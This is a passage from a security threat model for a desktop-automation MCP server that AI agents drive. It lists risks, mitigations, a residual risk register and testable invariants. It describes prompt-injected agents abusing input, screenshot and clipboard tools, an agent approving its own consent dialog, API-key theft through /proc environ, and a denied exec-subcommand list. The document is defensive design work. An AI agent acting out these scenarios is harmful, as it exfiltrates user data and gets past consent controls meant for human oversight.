  rather than silently granting `default_role`; malformed key
  fingerprints and unknown tool names produce loud startup warnings.
- The `--readonly` preset is strictly observational (15 tools) -
  `invoke_element`, `screen_highlight`, `set_spatial_focus`,
  `screen_record`, `clipboard_get`, `get_action_history`, and
  `plugin_reload` are deliberately excluded despite being read-ish,
  because each mutates state or discloses cross-caller data.

**Residuals.**

- **Policy file is same-UID writable**(R-16): the config that bounds a
  key's power lives under the same `~/.config/` an attacker-as-user can
  edit. Fail-closed parsing prevents silent widening via typos, but a
  deliberate rewrite is an accepted same-UID risk (same class as
  `plugins/*.json`, R-14).
- **8-hex fingerprint bound**(R-16): `key_id` is the first 8 hex chars of
  the key's SHA-256 - a ~32-bit space. Two configured keys colliding is
  unlikely at realistic key counts (birthday bound ~77k keys for 50%), but
  a collision silently aliases one client's role onto another.
- **Union semantics can surprise**: under a `readonly` role, an
  `allow_tools` entry *opts a mutating tool back in* - the union is
  documented and deliberate, but an operator who expects `readonly` to be
  a hard ceiling will be surprised. Deny lists are the hard ceiling.

### 4.15 `screen_stream` rolling capture (v1.4.0)

**Risk.**Like `screen_record` (§4.10) but continuous: a background task
writes PNG frames to disk for as long as the caller keeps it running - an
attacker-injected `start` could fill the disk or keep exfiltrating frames
through `latest`.

**Mitigations.**

- Output is a fresh server-owned `stream-<ulid>` `0700` dir under the
  captures root - never a caller-chosen path; `manifest.json` is written
  on every exit path (`stopped`/`capture_error`/`io_error`).
- The window is **rolling and double-capped**: `max_frames` ≤1800 and
  `buffered_bytes <= max_bytes <= 512 MiB` hold unconditionally - oldest
  frames are evicted (`dropped_frames`), a frame larger than the whole
  budget is dropped unwritten. Disk fill is bounded by construction.
- One active stream **server-wide**(process-global registry shared by
  stdio and HTTP) - a second `start` is an `isError`, so a caller cannot
  multiply capture tasks.
- Not consent-gated - same posture as `screen_record`: nothing
  caller-chosen is written and reads (`latest`) are audited like
  `screenshot`. `screen_stream` is in `NON_REPLAYABLE`: replaying a
  recorded `start` would spawn a background capture, so `replay_action`
  refuses it.

**Residual.**Low-Medium: an authorized/injected client can hold a live
capture open and poll frames - the same exfiltration class as a
`screenshot` loop (R-2, R-10), just more convenient; rate limiting and
audit cadence apply.

### 4.16 Plugin-exposed dynamic tools (v1.4.0)

**Risk.**A manifest `tool` section registers a plugin as a first-class
`tools/list` entry under its own name - an attacker who can write
`plugins/*.json` (§4.9, R-14) could advertise an innocuous-looking tool
name that agents call directly, laundering the macro behind a
catalog-looking entry.

**Mitigations.**

- **No new code-execution surface**: an exposed call is exactly
  `plugin_run{name, params}` through `call_tool_secured` - declarative
  JSON steps, `plugin_*`/`replay_action` recursion still rejected,
  per-step consent/audit/history/metrics unchanged.
- **Dual policy gate**: the exposed tool's *own name* must pass the
  caller's role allow/deny **and**the role must allow `plugin_run`; a
  `readonly` role denies them (`-32018`), an allowlist that omits the
  name denies `-32019`, and a role denying `plugin_run` never sees them.
  They inherit `plugin_run`'s `admin` category for `--category`
  filtering.
- Names must clear the tool grammar `^[a-z][a-z0-9_]{0,63}$` and cannot
  collide with the catalog or a sibling plugin's claim - no
  shadowing/spoofing of real tools; losing claims surface in
  `plugin_reload` diagnostics.
- History records only `plugin=<name> steps=<n>` - the same redaction as
  `plugin_run` - and the write precondition is the same-UID state-dir
  access already covered by R-14.

**Residual.**Medium - same class as R-14: the *name* is new attack
surface (a convincing tool name invites calls), but every mitigation
that bounds `plugin_run` bounds the exposed alias identically.

---

## 5. Attack Trees - Top 3 Scenarios

### Scenario A: Prompt injection -> destructive/exfiltrating tool calls



### Scenario B: Local unprivileged process -> steal data or hijack control



### Scenario C: Credential/key compromise -> remote drive-by on :3010



---

## 6. Residual Risk Register

Risks we knowingly accept after mitigation. **This register is the honest
bottom line.**

| ID | Risk | Severity | Why it remains | Operator recourse |
| -- | ---- | -------- | -------------- | ----------------- |
| **R-1**| Stolen `uxcp_*` key grants full tool surface until rotated | High | Bearer-token model; no mTLS/attestation | Rotate every 90d; one key per client; monitor `auth.failure` + unfamiliar key-IDs in audit |
| **R-2**| Authenticated-but-injected agent abuses semantically-powerful tools (`type_text`, permitted `dispatch` set, screenshot exfil) | **High**| Arg constraints deny exec-capable subcommands and the consent gate challenges the destructive class, but neither judges *intent*; distinguishing injected intent is unsolved. A client that auto-approves consent challenges weakens the gate | Human-in-the-loop confirmation in the client; never auto-approve `ConsentRequired`; drop `hyprctl` from enabled whitelist; keep `--allow-destructive` off unattended deployments; review history replay |
| **R-3**| Same-UID local process reads `/proc/<pid>/environ` -> recovers API key | Medium | Linux exposes env to same-UID readers; fundamental | Dedicated service user; stdio preferred for local clients |
| **R-4**| CDP `:9222` open to all local processes -> browser profile compromise | Medium-High | CDP has no auth; Chrome's design, not ours | `--remote-debugging-pipe`; dedicated browser profile; firewall |
| **R-5**| Secret leakage into plaintext `audit.jsonl` despite redaction heuristics | Medium | No heuristic catches every secret shape | Treat `logs/` as sensitive; `0700`; avoid typing secrets via tools |
| **R-6**| Same-UID attacker edits/forges `audit.jsonl` | Medium | `prev_hash` hash-chaining makes naive edits/truncation detectable; the optional per-line HMAC (`ULTRANIX_MCP_AUDIT_SECRET`) makes forged or spliced lines verifiable - but the secret sits in the same process env the attacker may read, and there is still no external anchor: an attacker who learns the secret rewrites the file wholesale | Set `ULTRANIX_MCP_AUDIT_SECRET`; ship logs to journald/SIEM via systemd stdout as well as file; verify chain+HMAC integrity against the shipped copy |
| **R-7**| uinput mode enables physical-equivalent input to privileged prompts (sudo/polkit) | Medium-High when active | Required fallback where virtual-input protocols unavailable | Prefer Wayland virtual input; dedicated udev group; watch `/readyz` + `backend.uinput.active` audit events + the `ultranix_mcp_backend_active{backend="uinput"}` gauge |
| **R-8**| Portal consent self-approval loop (agent clicks its own consent dialog) | Medium | Consent UI rendered on the same automatable desktop. The `-32015` consent gate avoids this shape - its challenge travels the MCP channel, not a clickable dialog - but covers only the destructive tool class; portal dialogs remain exposed | Disable virtual input when portals in use; accept per-session consent is UX, not boundary |
| **R-9**| No TLS on `:3010` - passive sniffing if bound beyond loopback | Medium (Low on loopback) | TLS out of scope for v1; local-first assumption | SSH tunnel or reverse proxy; never bind to LAN |
| **R-10**| Compositor-level screenshot is consent-free on Hyprland | Medium | wlr-screencopy has no per-capture prompt | Platform limitation; control is at TB-1 |
| **R-11**| Supply-chain compromise despite pinning/audit | Low-Medium | Audit catches *known* CVEs, not zero-day malicious releases | `cargo deny` sources; minimal dep tree; checksum-pinned models |
| **R-12**| History plaintext exposed in memory while running | Low | Necessary for operation | FDE + standard memory-hygiene; accepted |
| **R-13**| `invoke_element` and pointer-class UI-interaction tools can activate privileged dialogs (polkit "Authenticate", `systemd-ask-password`) | Medium-High | UI-interaction tools are physical-input-equivalent - the same residual class as any input injector (R-7); the consent gate deliberately does not cover that class, since a per-call challenge adds friction, not a boundary | Trusted-session deployment only; full `args_hash` audit trail; keep `--allow-destructive` off unattended deployments; prefer the compositor-scoped Wayland virtual-input backend over uinput |
| **R-14**| Same-UID attacker writes a hostile `plugins/*.json` manifest chaining semantically-powerful tools under one innocuous name | Medium | Requires the same-UID state-dir access that already reaches `history.json`; manifests are data (no code exec), `plugin_*` recursion is rejected, and every step re-enters consent/audit - but a *valid* macro can still chain real tools | Keep `~/.ultranix-mcp/` `0700` (default); review `plugin_reload` diagnostics; per-step consent stays on (`--allow-destructive` off unattended) |
| **R-15**| `clipboard_get` exfiltrates clipboard-held secrets to an authorized/injected client | Medium | Ambient same-session readability of the clipboard - reads are audited, not gated (consistent with `screenshot`); writes/clears are consent-gated | Treat clipboard contents as sensitive; audit `clipboard_get` frequency; scope client keys |
| **R-16**| Same-UID attacker rewrites `policy.toml` to widen a restricted key's role - or a key-fingerprint collision aliases roles | Medium | Policy is startup-loaded, same-UID config like `plugins/*.json`; the 8-hex `key_id` space (~32 bits) collides under ~77k configured keys | `0600`/`0400` the policy file, monitor it with file-integrity tooling, restart to apply changes; prefer deny-lists as the hard ceiling; keep configured key counts small |
| **R-17**| Same-UID attacker publishes a `plugins/*.json` with a `tool` section whose innocent-looking name lures agents into calling the macro directly (v1.4.0) | Medium | Same precondition and bounds as R-14 - the exposed name is policy-gateable like any tool (deny it or `plugin_run` to block the whole class), adds no code-exec surface, and every step still re-enters consent/audit | Review `plugin_reload` diagnostics for unexpected `tool` claims; deny-list suspicious exposed names; keep `~/.ultranix-mcp/` `0700` | ### Explicitly out of scope

- Root/kernel adversaries, malicious compositor, physical access with an
  unlocked session, hardware/firmware attacks, and anything the OS's own DAC
  already permits the session user.

---

## 7. Security Invariants (testable claims)

The following MUST hold in implementation and are candidates for CI tests:

1. No tool executes a command outside the **arg-constrained**whitelist
   `{grim, slurp, hyprctl, scrot, xdotool, wmctrl}`; exec-capable
   subcommands (`hyprctl dispatch exec`/`exec-once`, general D-Bus
   invocation) are denied, and every binary runs via its startup-pinned
   absolute path. Provider-internal pins (`xrandr`, `xprop`,
   `wl-copy`, `wl-paste`, `xclip`, `xsel`, `kdotool`, `riverctl`, and the
   other helper binaries) are likewise startup-pinned but have no
   `validate_command` arm - `system_command` cannot invoke them; only
   provider code spawns them. Honest carve-out: on X11-fallback sessions
   `xdotool`
   retains `type`/`key` - exec-equivalent into terminals - and that is a
   flagged residual (§6 R-2). Wayland sessions deny all exec-capable
   subcommands: `xdotool`/`wmctrl` are not even registered there.
2. No file is written outside `{$XDG_RUNTIME_DIR, /tmp, ~/.ultranix-mcp/**}`
   after canonicalization (symlinks resolved).
3. Every tool call - success or rejection - produces exactly one
   `audit.jsonl` record.
4. HTTP requests without a valid `uxcp_*` key are rejected before reaching any
   tool, unless `ULTRANIX_MCP_DISABLE_AUTH=true`, in which case startup emits
   a warning + audit event.
5. `history.json` is never written unencrypted.
6. Temp screenshot files are created inside a fresh `mktemp`-dir
   (`~/.ultranix-mcp/captures/` preferred, `/tmp` fallback), opened
   `O_NOFOLLOW` at mode `0600`, and unlinked after use (including error
   paths).
7. `~/.ultranix-mcp/` is created `0700`; key material is never persisted by
   the server.
8. Destructive-class tools (`system_command`, `clear_action_history`,
   `replay_action`, `window_control{action:"close"}`, `clipboard_set`,
   `clipboard_clear`) never execute on a
   first call - they return `-32015 ConsentRequired` until a valid,
   unexpired, single-use `consent_token` bound to `{key_id/session, tool,
   args_hash}` is presented, unless `--allow-destructive` was set at
   startup (in which case startup logged the bypass). Replaying a
   destructive-class record re-challenges through the full gate; consent
   is never inherited across calls.
9. `plugin_run` never escapes the security pipeline: manifests are
   declarative JSON (no code execution), `plugin_*` steps are rejected at
   validation, and every step re-enters dispatch - a destructive step
   challenges for its own `consent_token` independently of any consent
   granted to the `plugin_run` call itself. The same holds for
   plugin-exposed tools (v1.4.0): calling one is `plugin_run` under a
   different name, and policy must pass for *both* the tool's own name
   and `plugin_run`.
10. `screen_record` writes only beneath a fresh server-owned `rec-<ulid>`
    `0700` dir (captures root or `/tmp` fallback) and never exceeds
    600 frames or 512 MiB of output. `screen_stream` writes only beneath
    a fresh `stream-<ulid>` `0700` dir, never exceeds 1800 live frames or
    its `max_bytes` (≤512 MiB) rolling budget, permits only one active
    stream server-wide, and is refused by `replay_action`.
11. Every `audit.jsonl` record carries `args_hash` (never raw args) and a
    `prev_hash` equal to the hash of the preceding record.
12. Every `tools/call` - including plugin steps and `replay_action`
    re-entry - passes the runtime policy check **before**consent,
    provider lookup, or side effects; a denied tool is absent from that
    caller's `tools/list` and returns `-32018`/`-32019` with a
    `denial_reason` in both the error `data` and the audit record.
13. An explicit `--policy` path that is missing or malformed aborts
    startup; unknown TOML fields and `keys`->undefined-role references
    abort startup rather than degrade to a permissive default.
14. Under a `readonly` role the effective allow set never exceeds the
    15-tool observational preset ∪ the role's `allow_tools`, and
    `deny_tools` always wins over both.

---

*Review cadence: this document is re-validated at every minor release and
after any security-relevant architecture change.*
